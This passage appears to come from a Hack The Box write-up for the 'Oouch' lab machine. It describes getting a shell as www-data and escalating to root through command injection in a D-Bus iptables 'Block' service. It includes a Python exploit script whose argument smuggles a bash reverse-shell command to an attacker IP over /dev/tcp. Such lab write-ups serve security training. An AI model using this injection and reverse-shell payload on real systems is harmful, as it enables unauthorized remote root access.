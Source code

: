 > You will need to remove "import bytes" on line 18

{{<figure src="/img/htb/oouch/rce_www_data.png" position=center caption="RCE as www-data">}}

Using this we can get a reverse shell as www-data:

{{<figure src="/img/htb/oouch/www_data_revshell.png" position=center caption="Reverse shell as www-data">}}

Now that we have a shell as `www-data`, we can use the following python script to see if there is a command injection vulnerability:

{{<code language="python" title="Exploit script for rce in iptables through dbus">}}
import sys
sys.path.insert(0, "/usr/lib/python3/dist-packages")
import dbus

bus = dbus.SystemBus()
block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')

client_ip = '; bash -c "bash -i >& /dev/tcp/10.10.14.14/1338 0>&1" //'
response = block_iface.Block(client_ip)
bus.close()
{{</code>}}

The first two lines were added to tell the script where to find the dbus package

If we run it without, we'll get the following error:

{{<figure src="/img/htb/oouch/dbus_import_error.png" position=center caption="dbus import error">}}

After running it, we get a shell as root and can retrieve the root flag:

{{<figure src="/img/htb/oouch/root_flag.png" position=center caption="Root flag obtained !">}}

